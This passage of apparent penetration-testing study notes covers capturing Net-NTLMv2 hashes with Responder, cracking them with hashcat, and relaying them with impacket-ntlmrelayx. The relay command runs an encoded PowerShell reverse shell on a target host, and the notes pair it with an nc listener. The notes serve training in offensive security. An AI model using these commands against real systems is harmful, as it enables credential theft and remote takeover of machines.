 
Then from the TARGET MACHINE request access to a non-existent SMB share on our Responder SMB server


```
hashcat --help | grep -i "NetNTLMV2"

hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force
```


- <https://github.com/lgandx/Responder>













### Relaying Net-NTLMv2


Use the obtained the `Net-NTLMv2` hash on another machine (for example if we couldn't crack it because it was too complex).

UAC remote restrictions limit the users we can use in pass-the-hash or relay attacks outside of an Active Directory environment.

If UAC remote restrictions are enabled on the target then we can only use the local Administrator user for the relay attack.




`impacket-ntlmrelayx` sets up an SMB server and relaying the authentication part of an incoming SMB connection to the target.

`--no-http-server`: disable the HTTP server since we are relaying an SMB connection

`-smb2support`: add support for SMB2

`-t`: target



```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc [ENCODED REVERSER POWERSHELL]
```


And on the ATTACKER MACHINE start a `nc` listener on the port the reverse shell is pointing at.






SMB signing set to False. Without this security mechanism enabled, we can potentially perform relay attacks if we can force an authentication request.




